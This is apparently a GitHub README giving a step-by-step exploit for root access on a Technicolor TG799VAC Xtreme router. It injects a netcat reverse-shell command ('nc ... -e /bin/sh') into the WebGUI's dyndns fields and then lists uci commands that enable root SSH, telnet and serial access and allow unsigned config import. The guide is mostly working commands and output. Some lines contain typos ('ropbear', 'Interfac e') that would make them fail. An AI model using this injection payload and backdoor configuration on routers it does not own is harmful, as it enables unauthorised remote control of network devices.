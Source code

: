 # HOWTO GET ROOT ACCESS FROM WEBGUI:

##### Let's begin. Fire up a terminal of any kind and just run the awesome netcat tool and listen on a port.

    nc -lvvp [machine_port]

##### Go to the WAN Services and press SHOW ADVANCED. In username, password and domain field you need type the below command, after this is done just enable the dyndns. It wont matter wich hoster you choose just pick one, press 
save and just wait 4-5 seconds and you have just got full root access of your TG799VAC Xtreme 17.2 Mint, check preview video above if you do not understand.

    :::::::`nc [machine_IP] [machine_port] -e /bin/sh`

###### In netcat window you will see something similiar and that means you are in:

    listening on [any] 1337 ...
    connect to [192.168.1.144] from router [192.168.1.1] 40980

##### Now we got full control. Let us now allow SSH permanent, copy paste commands below:

    rm /etc/dropbear/*
    uci delete dropbear.mgmt &> /dev/null
    uci delete dropbear.mgmt.PasswordAuth &> /dev/null
    uci delete dropbear.mgmt.RootPasswordAuth &> /dev/null
    uci delete dropbear.mgmt.Port &> /dev/null 
    uci delete dropbear.mgmt.Interfac e&> /dev/null
    uci delete dropbear.mgmt.AllowedClientIPs &> /dev/null
    uci delete dropbear.mgmt.enable &> /dev/null
    uci delete dropbear.mgmt.IdleTimeout &> /dev/null 
    uci set dropbear.wan=dropbear
    uci set dropbear.wan.PasswordAuth='off'
    uci set dropbear.wan.RootPasswordAuth='on'
    uci set dropbear.wan.Port='22'
    uci set ropbear.wan.Interface='wan'
    uci set dropbear.wan.AllowedClientIPs='wanip'
    uci set dropbear.wan.IdleTimeout='3600'
    uci set dropbear.wan.enable='1'
    uci set dropbear.lan=dropbear
    uci set ropbear.lan.PasswordAuth='on'
    uci set dropbear.lan.RootPasswordAuth='on'
    uci set dropbear.lan.Interface='lan'
    uci set dropbear.lan.enable='1'
    uci set dropbear.lan.IdleTimeout='3600'
    uci set dropbear.lan.Port='22'
    uci set web.uidefault.nsplink='https://www.wuseman.com'
    uci set system.config.export_plaintext='1'
    uci set system.config.export_unsigned='1'
    uci set system.config.import_plaintext='1'
    uci set system.config.import_unsigned='1'
    uci set clash.main_config=single_config
    uci set clash.main_config.module_path='/usr/lib/lua/clash/modules'
    uci set clash.main_config.log_level='3'
    uci set clash.engineer=user
    uci set clash.engineer.ssh='1'
    uci set clash.engineer.telnet='1'
    uci set clash.engineer.serial='1'
    uci set clash.engineer.ssh_key='username@hostname'
    uci set web.uidefault.upgradefw_role='admin'
    /etc/init.d/dropbear restart; uci commit; exit